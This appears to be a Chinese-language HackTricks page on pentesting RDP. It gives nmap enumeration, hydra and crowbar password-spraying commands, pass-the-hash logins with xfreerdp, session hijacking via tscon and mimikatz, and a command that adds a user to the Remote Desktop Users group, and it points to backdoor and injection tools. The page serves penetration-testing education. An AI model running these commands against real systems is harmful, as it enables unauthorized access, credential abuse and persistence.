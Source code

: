 # 3389 - Pentesting RDP

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，使用 20 多种工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取 shell 并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## 基本信息

由微软开发的 **远程桌面协议** (**RDP**) 旨在通过网络实现计算机之间的图形界面连接。为了建立这样的连接，用户使用 **RDP** 客户端软件，同时，远程计算机需要运行 **RDP** 服务器软件。此设置允许无缝控制和访问远程计算机的桌面环境，基本上将其界面带到用户的本地设备上。

**默认端口：** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## 枚举

### 自动

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

它检查可用的加密和DoS漏洞（在不对服务造成DoS的情况下）并获取NTLM Windows信息（版本）。

### [暴力破解](../generic-methodologies-and-resources/brute-force.md#rdp)

**小心，您可能会锁定账户**

### **密码喷洒**

**小心，您可能会锁定账户**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### 使用已知凭据/哈希连接
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### 检查已知凭据是否适用于 RDP 服务

rdp\_check.py 来自 impacket 让你检查某些凭据是否对 RDP 服务有效：
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，提供20多种工具和功能，从侦察到报告。我们不取代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取shell并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **攻击**

### 会话窃取

通过**SYSTEM权限**，您可以访问任何**用户打开的RDP会话**，无需知道所有者的密码。

**获取打开的会话：**
```
query user
```
**访问所选会话**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
现在您将进入所选的 RDP 会话，并且您将仅使用 Windows 工具和功能来模拟用户。

**重要**：当您访问一个活动的 RDP 会话时，您将使正在使用该会话的用户断开连接。

您可以通过进程转储获取密码，但这种方法更快，并且可以让您与用户的虚拟桌面进行交互（密码在记事本中而未保存在磁盘上，其他机器上打开的其他 RDP 会话...）

#### **Mimikatz**

您也可以使用 mimikatz 来做到这一点：
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

结合这个技术与 **stickykeys** 或 **utilman**，您将能够随时访问管理CMD和任何RDP会话。

您可以使用以下链接搜索已经被这些技术后门化的RDP：[https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

如果来自不同域的某人或具有 **更高权限的用户通过RDP登录** 到您是 **管理员** 的PC，您可以 **注入** 您的信标到他的 **RDP会话进程** 中，并以他的身份进行操作：

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## 自动工具

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** 是一个用 Powershell 创建的后期利用框架，主要用于自动化对 Microsoft Windows 计算机的 **Shadow** 攻击。此漏洞（被 Microsoft 列为一个特性）允许远程攻击者 **在未获得受害者同意的情况下查看其桌面**，甚至可以按需控制它，使用操作系统本身的本地工具。

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* 从命令行以自动化方式控制鼠标和键盘
* 从命令行以自动化方式控制剪贴板
* 从客户端生成 SOCKS 代理，通过 RDP 将网络通信引导到目标
* 在目标上执行任意 SHELL 和 PowerShell 命令，而无需上传文件
* 即使在目标上禁用文件传输，也可以上传和下载文件到/从目标

## HackTricks 自动命令
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

**即时可用的漏洞评估和渗透测试设置**。从任何地方运行完整的渗透测试，提供20多个工具和功能，从侦察到报告。我们不替代渗透测试人员 - 我们开发自定义工具、检测和利用模块，以便让他们有更多时间深入挖掘、获取shell并享受乐趣。

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
学习和实践AWS黑客技术：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks培训AWS红队专家（ARTE）**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
学习和实践GCP黑客技术：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks培训GCP红队专家（GRTE）**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持HackTricks</summary>

* 查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord群组**](https://discord.gg/hRep4RUj7f)或[**电报群组**](https://t.me/peass)，或**在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub库提交PR来分享黑客技巧。

</details>
{% endhint %}
